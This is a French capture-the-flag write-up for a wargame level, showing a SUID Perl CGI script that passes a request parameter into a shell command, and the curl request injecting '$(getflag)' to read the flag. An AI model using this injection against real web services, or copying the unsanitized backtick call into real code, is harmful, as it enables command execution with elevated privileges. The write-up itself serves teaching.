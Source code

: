 # Niveau 04 - Exploitation par Injection de Commande Web

## Aperçu du défi
Le niveau 04 nous présente un script Perl (`level04.pl`) qui :

- Possède les permissions SUID (Set User ID) définies pour `flag04`.
- Fonctionne comme un simple script de serveur web.
- Est vulnérable à l'injection de commande.

## Analyse du fichier

### Permissions
```bash
-rwsr-sr-x  1 flag04  level04  152 Mar  5  2016 level04.pl
```
### Observations clés :

- Le `s` dans les permissions indique que le bit SUID est activé.
- Le script s'exécute avec les privilèges de `flag04` lorsqu'il est exécuté.
- Il appartient à `flag04` mais est exécutable par les utilisateurs de `level04`.

## Analyse du contenu du script
```perl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  # Exécute la commande shell et affiche sa sortie (stdout et stderr)
  print `echo $y 2>&1`;
}
# Appelle la fonction x avec le paramètre 'x' de la requête HTTP
x(param("x"));
```
### Comprendre le script
Le script :

- Est une application web : Tourne sur `localhost:4747` (basé sur le commentaire).
- Utilise CGI : CGI (Common Gateway Interface) est un protocole permettant aux serveurs web d'exécuter des scripts.
- Prend une entrée utilisateur : Utilise `param("x")` pour obtenir un paramètre nommé "x" des requêtes HTTP.
- Exécute des commandes shell : Les accents graves (`) en Perl exécutent des commandes shell.
- N'a pas de validation d'entrée : Prend l'entrée utilisateur et la passe directement à une commande shell.

### Explication de la vulnérabilité
La vulnérabilité est une injection de commande classique :

- Le script prend un paramètre utilisateur ("x").
- Passe ce paramètre directement à une commande shell (`echo $y 2>&1`).
- Sans aucune désinfection ou validation.
- Et exécute cette commande avec les privilèges élevés de `flag04`.

## Étapes d'exploitation

### 1. Identifier le service web
Le commentaire `# localhost:4747` indique que le script fonctionne comme un serveur web sur le port 4747.

### 2. Fabriquer une charge utile d'injection de commande
Puisque le script exécute des commandes shell avec l'entrée utilisateur, nous pouvons utiliser la syntaxe shell pour injecter nos propres commandes :
```bash
$(getflag)
```

Cela fera exécuter au script :
```bash
echo $(getflag) 2>&1
```

La syntaxe `$()` indique au shell d'exécuter `getflag` et de substituer sa sortie.

### 3. Envoyer la requête d'exploitation
Utilisation de `curl` pour envoyer la requête HTTP avec notre charge utile :
```bash
curl "http://localhost:4747/level04.pl?x=\$(getflag)"
```
*(Note : Le `\` avant `$` est nécessaire pour empêcher le shell local d'interpréter `$(getflag)` avant que `curl` ne l'envoie)*

### 4. Résultat
```plaintext
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```

## Pourquoi cela fonctionne

- Le script fonctionne comme un serveur web écoutant sur le port 4747.
- Il prend le paramètre "x" et le passe à une commande shell.
- Lorsque nous injectons `$(getflag)`, le shell exécute `getflag`.
- Parce que le script a les permissions SUID, `getflag` s'exécute avec les privilèges de `flag04`.
- La sortie de `getflag` est retournée dans la réponse HTTP.

## Leçons de sécurité

- **Validation des entrées** : Ne jamais faire confiance aux entrées utilisateur ; toujours les valider et les désinfecter.
- **Injection de commande** : Éviter de passer directement les entrées utilisateur aux commandes shell.
- **Scripts SUID** : Perl (et d'autres interpréteurs de script) ignorent souvent les bits SUID pour des raisons de sécurité, mais dans ce cas, l'injection de commande s'exécute toujours avec des privilèges élevés car c'est le shell invoqué qui exécute la commande injectée.
- **Sécurité Web** : Les applications web nécessitent une attention particulière à la sécurité car elles sont directement accessibles aux utilisateurs.

## Solution complète

```bash
# Se connecter au serveur web et injecter la commande getflag
curl "http://localhost:4747/level04.pl?x=\$(getflag)"

# Sortie attendue : Check flag.Here is your token: ne2searoevaevoem4ov4ar8ap
